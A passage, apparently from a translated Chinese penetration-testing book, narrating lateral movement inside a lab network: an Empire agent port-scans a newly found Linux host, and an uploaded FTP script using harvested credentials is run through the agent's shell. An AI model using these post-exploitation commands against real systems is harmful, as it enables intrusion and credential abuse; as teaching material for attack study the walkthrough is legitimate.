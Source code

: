 好吧，脚本末尾的delete命令解释了很多！我们得到了我们希望的最后一个IP地址：10.30.30.41。这台新机器显然也在GBSALES网段，所以我们不需要追逐新的目标。FTP凭据是FTPSRV/PASS01。

我们在这台新发现的机器上执行快速端口扫描，以评估哪个入口点最适合：
```
(Empire: SalesFTP) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Hosts 10.30.30.41
(Empire: portscan) > set TopPorts 1000
(Empire: portscan) > run
Job started: Debug32_70b72
Hostname OpenPorts 
-------- --------- 
10.30.30.41 21
10.30.30.41 22
10.30.30.41 80
10.30.30.41 111
 […]
```

SSH（22）和portmap（111）代替了SMB和RPC端口，这不是Windows机器……当然是某种Linux风格的。除了FTP服务，我们别无选择！

由于SL0210服务器上没有交互会话，因此我们上载一个连接到此ftp服务器（10.30.30.41）的简单脚本（/root/simple_ftp.txt），然后执行“dir”命令以列出当前目录中的文件(在将在Unix上写入的文件发送到Windows平台之前，请确保使用unix2dos命令在换行（0x0A）之前添加回车（0x0D）。)：
```
Open 10.30.30.41
FTPSRV
PASS1
dir
quit
```

```
(Empire: SalesFTP) > upload /root/simple_ftp.txt C:\Users\sysback\AppData\
Local\simple_ftp.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local\
(Empire: SalesFTP) > shell ftp -s:simple_ftp.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```
![](chap5/chap5-6.jpg)

